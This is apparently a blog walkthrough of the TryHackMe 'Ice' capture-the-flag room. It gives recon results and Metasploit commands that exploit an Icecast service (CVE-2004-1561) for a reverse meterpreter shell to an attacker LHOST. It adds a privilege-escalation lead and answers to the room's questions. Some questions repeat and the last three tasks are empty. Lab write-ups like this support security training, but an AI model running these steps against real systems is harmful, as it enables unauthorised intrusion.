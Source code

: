 ```yaml
---
title: "TryHackMe Ice - Walkthrough"
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
categories:
  - Blog
tags:
  - Cybersecurity
  - Windows
  - Penetration Testing
  - Ethical Hacking
  - TryHackMe
  - CTF
  - Privilege Escalation
  - Machines
#teaser: assets/images/thm/thm-ice-00.png  Path to the teaser image
tagline: "ICE - Tryhackme Walkthrough by Nisha."
header:
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/thm/thm-ice-0.png
  caption: "Photo credit: [**imgur**](https://imgur.com/6Ijftag)"
---
```



<h5>Deploy & hack into a Windows machine, exploiting a very poorly secured media server. </h5>

<img src="/assets/images/thm/ice-1.png">
Room:<a href="https://tryhackme.com/r/room/ice"> https://tryhackme.com/r/room/ice</a>


{% include toc %}

## Task 1 - Connect 

Get connected to the TryHackMe network using OpenVPN. Make sure to first download your configuration file from <a href="http://tryhackme.com/access ">your access page. </a>



## Task 2 - Recon

Click on Start Machine to deploy the machine!

<img src="/assets/images/thm/thm-ice-2.png">

Time to Scan and Enumerate our target!


An NMAP scan reveals the following ports were discovered to be open:

<img src="/assets/images/thm/thm-ice-3.png">

<strong> Q: One of the more interesting ports that is open is Microsoft Remote Desktop (MSRDP). What port is this open on? </strong><br>
<em> Answer: 3389</em>




<strong> Q: What service did nmap identify as running on port 8000? (First word of this service) </strong><br>
<em> Answer: Icecast </em>

<img src="/assets/images/thm/thm-ice-4.png">


<strong> Q: What does Nmap identify as the hostname of the machine? (All caps for the answer) </strong><br>
<em> Answer: DARK-PC </em>

<img src="#">


## Task 3 - Gain Access

In this task we must find a way to exploit any vulnerable services on the target to gain a foothold. The cvedetails website reveals that the impact score and the CVE number for this vulnerability as displayed in the image below. 


<strong> Q: What is the Impact Score for this vulnerability? Use <a href="https://www.cvedetails.com">https://www.cvedetails.com> </a> for this question and the next.  </strong><br>
<em> Answer: 6.4 </em>

<img src="/assets/images/thm/thm-ice-6.png">


<strong> Q: What is the CVE number for this vulnerability?  </strong><br>
<em> Answer: CVE-2004-1561 </em>

It is time to use the information that we have collected to locate an exploit for our target.  We will use automation for this exploitation exercise with Metasploit being our tool of choice. 

Type "msfconsole" to launch the Metasploit Framework. <br>

<img src="/assets/images/thm/thm-ice-7.png">

<strong> Q: After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? If you are not familiar with metasploit, take a look at the Metasploit module. </strong><br>
<em> Answer: exploit/windows/http/icecast_header</em>

<img src="/assets/images/thm/thm-ice-8.png">

<strong> # use exploit/windows/http/icecast_header </strong> <br>

<img src="/assets/images/thm/thm-ice-9.png">

<strong> # set RHOSTS <em>targetIPaddress </em> </strong> <br>
<img src="/assets/images/thm/thm-ice-10.png">

<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<img src="/assets/images/thm/thm-ice-11.png">


<strong> # set LHOST <em> attackerIPaddress or interface </em> </strong> <br>

<strong> # exploit </strong> <br>

<img src="/assets/images/thm/thm-ice-12.png">



## Task 4 - Escalate

<h5> Our goal for this task is to complete any local enumeration to discover paths to escalte our privileges in our quest to gain Admin powers. </h5>


<strong> Q: Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now? </strong><br>
<em> Answer: meterpreter </em>


<strong> > getuid </strong> <br>

<strong> Q: What user was running that Icecast process? The commands used in this question and the next few are taken directly from the 'Metasploit' module. </strong><br>
<em> Answer: Dark </em>




<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<img src="/assets/images/thm/thm-ice-13.png">


<strong> Q:Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running? </strong><br>
<em> Answer: x64 </em>


Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* <br>

>  run post/multi/recon/local_exploit_suggester

<strong> Q: Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit? </strong><br>
<em> Answer: exploit/windows/local/bypassuac_eventvwr </em>

<img src="/assets/images/thm/thm-ice-14.png">


<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>

<strong> Q: What build of Windows is the system? </strong><br>
<em> Answer: 7601 </em>



<img src="/assets/images/thm/thm-ice-15.png">
<img src="/assets/images/thm/thm-ice-16.png">

<img src="/assets/images/thm/thm-ice-17.png">
<img src="/assets/images/thm/thm-ice-18.png">



## Task 5 - Looting

## Task 6 - Post-Exploitation

## Task 7 - Extra Credit

